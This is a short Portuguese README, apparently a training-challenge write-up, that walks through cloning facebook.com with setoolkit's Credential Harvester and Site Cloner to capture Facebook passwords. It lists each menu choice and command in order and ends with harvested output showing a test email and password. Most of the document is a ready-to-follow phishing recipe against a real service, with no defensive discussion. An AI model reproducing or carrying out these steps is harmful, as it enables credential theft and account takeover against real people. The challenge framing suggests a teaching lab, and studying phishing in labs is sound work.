 # Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

### Resutados

![Alt text](./passwd.png "Optional title")

### Resultado do desafio realizado
POSSIBLE USERNAME FIELD FOUND: skip_api_login=                               
PARAM: signed_next=                                                          
PARAM: trynum=1                                                              
PARAM: timezone=                                                             
PARAM: lgndim=                                                               
PARAM: lgnrnd=120416_SKEl                                                    
PARAM: lgnjs=n                                                               
POSSIBLE USERNAME FIELD FOUND: email=testeDesafioSucesso@gmail.com           
POSSIBLE PASSWORD FIELD FOUND: pass=321                                      
POSSIBLE USERNAME FIELD FOUND: login=1                        
